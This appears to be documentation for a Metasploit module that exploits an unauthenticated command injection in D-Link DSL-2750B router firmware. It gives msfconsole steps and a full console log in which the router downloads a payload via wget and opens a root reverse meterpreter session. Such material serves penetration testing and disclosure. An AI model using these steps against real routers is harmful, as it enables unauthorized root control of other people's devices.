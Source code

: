 ## Description

This module dlink_dsl2750b_exec_noauth exploits unauthenticated command injection vulnerability through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Verification Steps 

  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dsl2750b_exec_noauth`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget method and executed giving us meterpreter session


## Scenarios 

```
msf5 > use exploit/linux/http/dlink_dsl2750b_exec_noauth 
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp 
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LHOST eth0
LHOST => eth0
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LPORT 5555
LPORT => 5555
msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

msf5 exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

[*] Started reverse TCP handler on 192.168.1.6:5555 
[*] 192.168.1.1:80 Checking target version...
[*] Using URL: http://0.0.0.0:8080/1M6nI0Or6FUiW
[*] Local IP: http://192.168.1.6:8080/1M6nI0Or6FUiW
[*] Client 192.168.1.1 (Wget) requested /1M6nI0Or6FUiW
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (1104216 bytes) to 192.168.1.1
[*] Meterpreter session 25 opened (192.168.1.6:5555 -> 192.168.1.1:48989) at 2018-05-14 05:30:49 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > ls -la
Listing: /
==========

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40755/rwxr-xr-x   2554    dir   2013-03-11 07:27:09 -0400  bin
40755/rwxr-xr-x   3       dir   2013-03-11 07:27:54 -0400  data
40755/rwxr-xr-x   2482    dir   2013-03-11 07:27:56 -0400  dev
40755/rwxr-xr-x   779     dir   2013-03-11 07:27:55 -0400  etc
40755/rwxr-xr-x   690     dir   2013-03-11 07:27:55 -0400  lib
100755/rwxr-xr-x  287124  fil   2013-03-11 07:27:55 -0400  linuxrc
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:01 -0500  mnt
40755/rwxr-xr-x   56      dir   2013-03-11 07:13:15 -0400  opt
40555/r-xr-xr-x   0       dir   1969-12-31 19:00:00 -0500  proc
40755/rwxr-xr-x   270     dir   2013-03-11 07:25:43 -0400  sbin
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:00 -0500  sys
40755/rwxr-xr-x   0       dir   2016-10-08 07:54:13 -0400  tmp
40755/rwxr-xr-x   38      dir   2013-03-11 07:23:32 -0400  usr
40755/rwxr-xr-x   0       dir   2016-10-08 07:46:13 -0400  var
40755/rwxr-xr-x   2801    dir   2013-03-11 07:26:34 -0400  webs

meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.30)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
